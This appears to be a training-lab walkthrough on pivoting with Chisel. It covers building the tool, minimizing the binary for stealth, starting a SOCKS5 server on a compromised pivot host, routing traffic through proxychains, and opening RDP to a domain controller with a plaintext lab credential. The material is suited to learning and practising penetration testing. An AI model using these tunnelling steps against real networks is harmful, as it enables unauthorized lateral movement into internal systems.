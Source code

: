 ## Setting Up Chisel

### Attack Host: Preparing Chisel
1. **Clone Repository**:
   ```bash
   git clone https://github.com/jpillora/chisel.git
   ```
2. **Install Go**: Required to build Chisel binary.
3. **Build Binary**:
   ```bash
   cd chisel
   go build
   ```
   - **Note**: Minimize binary size for stealth (see 0xpat’s blog or IppSec’s Reddish walkthrough at 24:29).
4. **Transfer Binary to Pivot Host**:
   ```bash
   scp chisel ubuntu@10.129.202.64:/
   ```

### Pivot Host: Running Chisel Server
- **Start Server**:
   ```bash
   ./chisel server -v -p 1234 --socks5
   ```
   - Listens on port 1234 with SOCKS5.
   - Forwards traffic to networks accessible from pivot host (e.g., 172.16.5.0/23).
   - **Output**:
     ```
     2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
     ```

### Attack Host: Connecting Chisel Client
- **Start Client**:
   ```bash
   ./chisel client -v ws://10.129.202.64:1234 socks
   ```
   - Connects to pivot host’s server on port 1234.
   - **Output**:
     ```
     2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
     2022/05/05 14:21:18 client: Connected
     ```

## Using SOCKS5 Proxy
1. **Configure Proxychains**:
   - Edit `/etc/proxychains.conf`:
     ```
     [ProxyList]
     socks5 127.0.0.1 1080
     ```
2. **Access Internal Network**:
   - Use `proxychains` with RDP to connect to Domain Controller:
     ```bash
     proxychains xfreerdp /v:172.16.5.19 /u:victor /p:passel29
     ```
